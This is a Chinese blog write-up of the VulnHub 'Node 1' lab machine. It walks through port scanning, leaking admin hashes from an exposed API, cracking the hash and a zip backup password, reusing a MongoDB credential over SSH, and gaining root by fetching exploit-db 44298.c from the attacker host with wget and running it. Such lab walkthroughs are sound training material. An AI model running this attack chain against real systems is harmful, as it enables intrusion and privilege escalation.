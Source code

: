 ```yaml
---
title: Node 靶机
date: 2021-02-27 10:01:48
categories: security
tags: 
- drone
---
```


**靶机下载**: [https://www.vulnhub.com/entry/node-1,252/](https://www.vulnhub.com/entry/node-1,252/)

渗透目标是通过 VMWare 安装的 Node 虚拟机, 网络连接方式为仅主机, 目标 IP 通过 DHCP 分配

## 主机发现

```shell
[root@kali ~]# arp-scan -I eth0 -l
```

## 端口探测

```shell
[root@kali ~]# nmap -sS -p1-65535 -v 192.168.64.129
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

<!-- more -->

## 服务识别

```shell
[root@kali ~]# nmap -sV -T4 -p22,3000 192.168.64.129
```

![port_service](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/port_service.png)

## 查找漏洞

### 扫描目录

```shell
[root@kali ~]# dirb http://192.168.64.129:3000 -f ~/web_file_list.txt
```

![scan_web_file](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/scan_web_file.png)

没有扫描到 web 目录

### 使用BurpSuite 探测

获取到 http://192.168.64.129:3000/api/users/latest 中 JSON 格式的用户数据

![api_user](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/api_user.png)

尝试去掉 latest, 在 http://192.168.64.129:3000/api/users/ 中发现了管理员用户

![user_admin](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/user_admin.png)

### 尝试破解密码

```shell
[root@kali ~]# hash-identifier dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af
Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
```

SHA-256 在线解密 [https://md5decrypt.net/Sha256/](https://md5decrypt.net/Sha256/)

![online_decrypter](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/online_decrypter.png)

### 用管理员登录

管理员登录后可以下载备份文件

![down_bak](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/down_bak.png)

### 尝试解密备份

文件内容为 ASCII 文本, 预览后疑似 BASE64 编码

```shell
[root@kali ~]# file myplace.backup
myplace.backup: ASCII text, with very long lines, with no line terminators
```

尝试 BASE64 解码, 得到 zip 压缩包, 但是解压需要密码

```shell
[root@kali ~]# cat myplace.backup | bash64 -d > myplace.bak
[root@kali ~]# file myplace.bak
myplace.bak: Zip archive data, at least v1.0 to extract
```

尝试破解压缩包密码

```shell
[root@kali ~]# fcrackzip -v -b -u -c a -p magicaaaa myplace.bak
... ...
PASSWORD FOUND!!!!: pw == magicword
```

解压后寻找可用信息

```shell
[root@kali ~]# unzip myplace.bak
[root@kali ~]# more var/www/myplace/app.js
... ...
const url = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
... ...
```

### 尝试使用 MongoDB 用户 ssh 登录

```shell
[root@kali ~]# ssh mark@192.168.64.129    #密码:5AYRft73VtFpc84k
[mark@node ~]$ uname -a
Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
[mark@node ~]$ cat /etc/issue
Ubuntu 16.04.3 LTS \n \l
```

### 漏洞提权

```shell
[root@kali ~]# searchsploit Ubuntu 16.04
```

发现漏洞提权代码

![ubuntu_sploit](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/node_drone/ubuntu_sploit.png)

将提权代码传到靶机

```shell
[root@kali ~]# systemctl start apache2.service
[root@kali ~]# cp /usr/share/exploitdb/exploits/linux/local/44298.c /var/www/html/
[mark@node /tmp]$ wget http://192.168.64.128/44298.c    
#192.168.64.128 为 Kali 虚拟机 IP
[mark@node /tmp]$ gcc 44298.c -o exp
[mark@node /tmp]$ ./exp
[root@node /tmp]# whoami
root
```

